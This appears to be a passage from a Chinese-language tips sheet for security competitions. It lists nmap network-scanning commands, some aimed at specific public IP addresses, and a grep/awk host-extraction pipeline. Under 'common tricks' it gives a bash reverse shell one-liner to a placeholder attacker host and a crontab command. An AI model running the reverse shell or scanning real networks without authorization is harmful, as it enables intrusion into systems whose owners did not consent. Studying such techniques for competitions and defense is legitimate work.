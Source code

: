 ### 10、扫描网络

扫描网络在闲暇比赛中其实很重要。首先，你需要将目标网段确定，一般就是一个/24的网段，可能存在的服务器不会超过256台。但是，仅仅这个数量其实也挺多的。

```
#扫描指定端口
nmap -n --open -p 80 X.X.X.X/24

#扫描指定网段的远程桌面连接端口
nmap -sT -p3389 218.206.112.0/24

#使用nmap来扫描端口UDP
nmap -sU 202.96.128.86 -p 53 -Pn

#进行安全检测(全端口扫描)
nmap -v -A 219.129.216.156

#仅列出指定网络上的每台主机，不发送任何报文到目标主机（能够得到相应的域名）
nmap -sL 192.168.1.0/24

#探测目标主机开放的端口，可以指定一个以逗号分隔的端口列表(如-PS22，23，25，80)
nmap -PS 192.168.1.234 

#使用UDP ping探测主机
nmap -PU 192.168.1.0/24

#使用频率最高的扫描选项：SYN扫描,又称为半开放扫描，它不打开一个完全的TCP连接，执行得很快
nmap -sS 192.168.1.0/24 

#当SYN扫描不能用时，TCP Connect()扫描就是默认的TCP扫描
nmap -sT 192.168.1.0/24 

#UDP扫描用-sU选项,UDP扫描发送空的(没有数据)UDP报头到每个目标端口
nmap -sU 192.168.1.0/24 

#确定目标机支持哪些IP协议 (TCP，ICMP，IGMP等)
nmap -sO 192.168.1.19

#探测目标主机的操作系统
nmap -O 192.168.1.19 
nmap -A 192.168.1.19 

#进行ping扫描，打印出对扫描做出响应的主机,不做进一步测试(如端口扫描或者操作系统探测)
nmap -sP 192.168.1.0/24
```

上述是基本操作，配合grep、awk可以得到更为玄妙的结果

```
#扫描指定网段的指定端口，并输出至ip.data
nmap -n --open -p 80 10.254.20.0/24 | grep -B3 "80/tcp"|grep "report for"|awk '{print $5}' >> ip.data
```

类似地，我们可以通过nmap的扫描结果，提取出需要的内容。

### 11、常用技巧

反弹shell

```
bash -i >& /dev/tcp/x.x.x.x/2333 0>&1
```

运行crontab

```
crontab cronfile
```